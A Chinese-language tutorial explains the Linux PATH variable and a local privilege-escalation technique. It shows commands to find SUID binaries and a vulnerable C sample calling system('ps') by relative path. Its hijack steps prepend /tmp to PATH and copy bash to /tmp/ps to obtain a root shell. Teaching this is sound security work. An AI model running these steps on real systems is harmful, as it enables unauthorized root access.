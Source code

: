 PATH是Linux和Unix操作系统中的一个环境变量，它可以指定可执行程序的所有bin和sbin目录。
当用户在终端上执行任何命令时，它会通过PATH变量来响应用户执行的命令，并向shell发送请求以找到可执行文件。
超级用户通常还具有/sbin和/usr/sbin条目，以便于系统管理命令的执行。

比如我想执行一个ls命令，其实我们执行的是/bin/ls这个可执行文件,而系统就是靠环境变量中我们设置的路径/bin中找到的ls并执行。
而执行的优先级是从前向后查询的，例如：若在usr/local/sbin中到到ls则会执行/usr/local/sbin中的ls，而不会再向下寻找。

## **利用SUID程序中环境变量的修改提权**
先查看具有SUID权限的程序
```
find / -perm -u=s -type f 2>/dev/null
```
如果看到一个第三方程序，如/tmp/shell，则这个程序管理员为了方便给予了SUID。
反编译第三方程序，如：
```
#include<unistd.h>
void main()
{
        setuid(0);
        setgid(0);
        system("ps");
}
```
可以看到使用了ps环境变量，默认情况下执行ps是执行/bin/ps,同时这里设定的ps并未写绝对路径来执行，而是直接ps，那么就可以思考，默认情况下环境变量是一个一个查看，若找到了，就不会再向下查找，那么就可以对环境变量进行劫持。
```
添加一个可控的PATH环境变量
echo $PATH
export PATH=/tmp:$PATH 
echo $PATH

此时执行ps等命令，先从/tmp中找。
cp /bin/bash /tmp/ps

此时执行ps命令执行的bash，即新开一个bash会话。

此时执行原程序./tmp/shell
而原程序是SUID权限，此时会执行bash会话就是root用户的。
```

